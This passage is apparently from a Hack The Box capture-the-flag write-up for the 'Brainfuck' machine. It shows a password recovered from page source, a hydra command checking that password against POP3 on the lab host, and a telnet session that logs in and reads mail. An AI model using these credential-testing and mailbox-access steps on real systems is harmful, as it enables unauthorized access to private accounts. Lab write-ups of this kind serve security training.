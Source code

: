 But the password was not visible so I used `Inspect Element` option 

![](https://github.com/Leo-2807/Writeups/blob/main/images/brainfuck8.png)

`user=orestis & password="kHGuERB29DNiNE"`

So now that I have creds I used hydra to check if they worked for the services we have on this machine 
I tried ssh and smtp first but they didn't work so I tried pop3 which is port 110 and it worked

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck/wordpress]
└─$ hydra -l orestis -p kHGuERB29DNiNE  10.10.10.17 pop3 -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-01 08:59:44
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking pop3://10.10.10.17:110/
[ATTEMPT] target 10.10.10.17 - login "orestis" - pass "kHGuERB29DNiNE" - 1 of 1 [child 0] (0/0)
[110][pop3] host: 10.10.10.17   login: orestis   password: kHGuERB29DNiNE
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-01 08:59:46
```

## POP3

So connected to port 110 using telnet and logged in through 
I found two messages, one of which contains the creds for the `super secret forum`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck]
└─$ telnet 10.10.10.17 110                                                              1 ⨯
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
STAT
+OK 2 1491
LIST
+OK 2 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
        id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
```